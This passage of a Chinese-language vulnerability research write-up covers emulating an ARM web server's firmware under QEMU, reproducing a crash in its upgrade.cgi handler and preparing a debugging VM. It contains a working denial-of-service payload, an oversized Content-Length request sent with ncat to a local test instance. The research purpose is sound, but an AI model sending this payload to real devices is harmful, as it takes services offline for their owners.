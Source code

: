 ![5cdaebf565a8783202](https://i.loli.net/2019/05/15/5cdaebf565a8783202.png)

![5cdaebfda525654157](https://i.loli.net/2019/05/15/5cdaebfda525654157.png)

`F5`

![5cdaec7946da159431](https://i.loli.net/2019/05/15/5cdaec7946da159431.png)

调用了两个库函数，这两个函数的作用分别是gethostname()：返回本地主机的标准主机名，如果函数成功，则返回 0。如果发生错误则返回 -1。gethostbyname()：用域名或主机名获取IP地址。这里要求两个函数读到的文件内容相同，它们对应文件系统中的；

![5cdaed29866d134674](https://i.loli.net/2019/05/15/5cdaed29866d134674.png)

这里我把它们都修改为`127.0.0.1 localhost`，再次尝试运行发现成功。

![5cdaed615c49165034](https://i.loli.net/2019/05/15/5cdaed615c49165034.png)

![5cdaed6aa6b7696773](https://i.loli.net/2019/05/15/5cdaed6aa6b7696773.png)

### 简单的漏洞测试

直接使用作者的payload:

```
echo -en "POST /cgi-bin/admin/upgrade.cgi 
HTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | ncat -v 127.0.0.1 80
```

![5cdaedf365b3a92201](https://i.loli.net/2019/05/15/5cdaedf365b3a92201.png)

发现服务已经崩溃。造成了dos攻击。

但这个payload仅仅只能达到让服务宕机的效果，并不能获得目标机器的控制权限，为了达到这个目的，还需要深入研究。

## 漏洞研究和更好的利用

要想定位溢出点就要调试，确定程序crash时的寄存器情况 栈布局等。

如果仅仅使用`sudo chroot . ./qemu-arm-static ./usr/sbin/httpd`

然后在本地gdb attach上去的话，gdb没法将程序的架构正确的识别为arm，从而导致寄存器信息都是乱的(当作x86来处理)。

### 搭建 ARM QEMU 虚拟机环境

因此需要一个虚拟机，这里采用qemu来架设一个arm-debian虚拟机:

qemu的安装就不再多说了。

从 Debian[官网](https://people.debian.org/~aurel32/qemu/armhf/)下载 QEMU 需要的 Debian ARM 系统的三个文件:

1. debian_wheezy_armhf_standard.qcow2 2013-12-17 00:04 229M

2. initrd.img-3.2.0-4-vexpress 2013-12-17 01:57 2.2M

3. vmlinuz-3.2.0-4-vexpress 2013-09-20 18:33 1.9M
